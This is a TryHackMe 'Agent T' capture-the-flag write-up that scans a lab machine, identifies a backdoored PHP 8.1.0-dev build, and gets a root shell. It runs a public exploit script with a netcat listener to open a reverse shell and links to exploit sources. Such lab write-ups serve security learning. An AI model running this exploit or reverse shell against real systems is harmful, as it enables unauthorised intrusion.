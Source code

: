 ```yaml
---
title: "Agent T WriteUp"
categories: [ctf]
date: 2022/08/07
image: img/agent_t_thm/img.png
description: TryHackMe Agent T WriteUp.
---
```


# TryHackMe | Agent T

<p align="center">
  <img src="/img/agent_t_thm/img.png">
</p>

## Scanning && Enumeration

Let's start with the network scan first.

<p align="center">
  <img src="/img/agent_t_thm/0.png">
</p>

```bash
nmap -sSV --min-rate 1000 -p- -v <ip>

```
A web application is running on port 80. PHP 8.1.0 dev version. Let's look at the web interface.

<p align="center">
  <img src="/img/agent_t_thm/1.png">
</p>

This is the default admin dashboard. I browsed the pages, but i couldn't find any important clue or information.

It made more sense to find exploits suitable for PHP version.

## Exploitation

<p align="center">
  <img src="/img/agent_t_thm/2.png">
</p>

I found the appropriate exploit in exploit-db, but it didn't give me tty access, so i decided not to use the other exploit. Of course the choice is yours.

<p align="center">
  <img src="/img/agent_t_thm/3.png">
</p>

In order to exploit the remote code execution vulnerability, i listened with netcat and gave the necessary addresses and ports to the python script. I finally got the root shell.

```bash

python3 rce.py <dst-ip> <src-ip> <src-port>

```

<p align="center">
  <img src="/img/agent_t_thm/4.png">
</p>

There is no need for any privilege escalation process and we can find it with the find command since it asks for a flag from us.

<p align="center">
  <img src="/img/agent_t_thm/5.png">
</p>

```bash
find / -name *.txt

```

It was that simple. Yes, this is very easy when you do the right enumeration and exploitation.






### Resources

 - [Exploit 1](https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/revshell_php_8.1.0-dev.py "Exploit")
 - [Exploit 2](https://www.exploit-db.com/exploits/49933 "Exploit 2")



